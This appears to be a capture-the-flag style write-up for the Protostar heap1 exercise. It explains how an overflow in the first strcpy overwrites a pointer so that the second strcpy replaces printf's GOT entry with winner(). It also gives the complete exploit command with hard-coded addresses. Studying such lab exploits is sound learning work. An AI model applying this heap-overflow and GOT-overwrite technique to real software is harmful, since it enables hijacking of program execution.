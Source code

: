     ![](./images/ss1.png)

- How to solve

    Basically just use the first strcpy() to overflow to and change the address that i2&#8594;name points to, to the address of the printf function in the GOT table such that during the second strcpy, we would copy the address of the winner() function to the address of printf.

- Answer

    `/opt/protostar/bin/heap1 $(python -c "print('A'*20+'\x74\x97\x04\x08')") $(python -c "print('\x94\x84\x04\x08')")`

- How the heap looks like BEFORE executing any of the strcpy() functions (actually before   `i2->name = malloc(8);` and after `i2->priority = 2;`)

    ![](./images/ss2.png)
